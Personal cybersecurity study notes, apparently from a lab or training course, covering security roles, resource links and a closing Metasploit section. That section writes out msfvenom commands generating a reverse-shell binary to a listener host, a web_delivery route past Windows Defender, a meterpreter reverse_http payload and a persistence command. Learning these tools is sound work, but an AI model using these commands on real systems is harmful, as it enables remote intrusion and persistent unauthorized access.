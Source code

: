 # Notes

**offensive security**

Look for vulnerabilities, recommend patches. Exploiting bugs. Finding loopholes. Gain unauthorized access.

* **penetration tester**: "Responsible for testing technology products for finding exploitable security vulnerabilities." (web security, network security knowledge, use various programming languages, cloud security)
* **Red Teamer**: "Plays the role of an adversary, attacking an organization and providing feedback from an enemy's perspective."
* **Security Engineer**: "design, monitor, and maintain security controls, networks, and systems to help prevent cyberattacks".

**defensive Security**. 
  * **Security Analyst** (monitor - splunk?)
  * **Incident Responder** (impact? goal? what can they do? - Volatility?)
  * **malware analysis**

Detect, and stop attacks. Monitor, analyze. Investigate infected computers, try to find how they were hacked, track down cybercriminals.

* Linux security researcher > Hashing


Other

* https://www.hackerrank.com/

<hr class="sep-both">

## Random

* Attack a vulnerable machine, scan the network to discover more vulnerable machines.

* Intrusion Detection System (IDS) is a system that detects unauthorised network and system intrusions. Examples include detecting unauthorised devices connected to the local network and unauthorised users accessing a system or modifying a file.

* https://wiki.owasp.org/index.php/OWASP_Testing_Guide_v4_Table_of_Contents

* Wireshark: https://unit42.paloaltonetworks.com/wireshark-workshop-videos/

* The [SecLists GitHub Repository](https://github.com/danielmiessler/SecLists/) contains useful lists of usernames/passwords, payloads, urls, ...

<hr class="sep-both">

## Metasploit

msfvenom to generate a reverse shell ELF binary: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf`

generate a payload using msfvenom callnig /bin/bash:

msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

Since we know our victim machine is running Windows Defender, let's go ahead and try a different method of payload delivery! For this, we'll be using the script web delivery exploit within Metasploit. Launch Metasploit now and select 'exploit/multi/script/web_delivery' for use.

* set target
* https://github.com/nobodyatall648/CVE-2019-1388
* A simple reverse HTTP payload.
  * 'set payload windows/meterpreter/reverse_http'.
* Following this, launch the attack as a job with the command 'run -j'.
  * jobs
  * jobs -i 0
  * paste the command output by Metasploit
* https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/
* run persistence -X